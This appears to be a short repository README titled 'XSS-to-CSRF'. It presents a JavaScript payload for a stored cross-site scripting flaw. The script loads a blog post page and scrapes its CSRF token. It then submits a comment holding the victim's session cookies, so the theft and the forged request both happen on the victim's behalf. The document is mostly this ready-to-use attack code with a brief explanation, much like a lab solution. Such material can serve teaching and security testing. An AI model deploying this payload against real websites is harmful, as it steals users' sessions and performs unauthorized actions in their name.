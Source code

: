 # XSS-to-CSRF

The code snippet provided demonstrates a **Cross-Site Request Forgery (CSRF)** attack utilizing a **Cross-Site Scripting (XSS)** vulnerability.

By combining a Stored XSS vulnerability to inject the malicious script and a CSRF attack to perform unauthorized actions on the victim's behalf, this code demonstrates a scenario where the victim would post a new comment on a blog with his cookie information in case the Stored XSS payload gets triggered.

```JavaScript
var request = new XMLHttpRequest();
request.responseType = "document"
request.open("GET", "/post?postId=7", true);

request.onload = function(e) {
  var csrf = e.target.response['body'].querySelectorAll('[name="csrf"]')[0].value;
  
  data = "csrf=" + csrf + "&postId=7&comment=" + document.cookie + "&name=victim&email=victim@victim.com&website=http://victim.com"
  
  var request = new XMLHttpRequest();
  request.open("POST", "/post/comment", true);
  request.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
  request.send(data);
}
request.send();
```
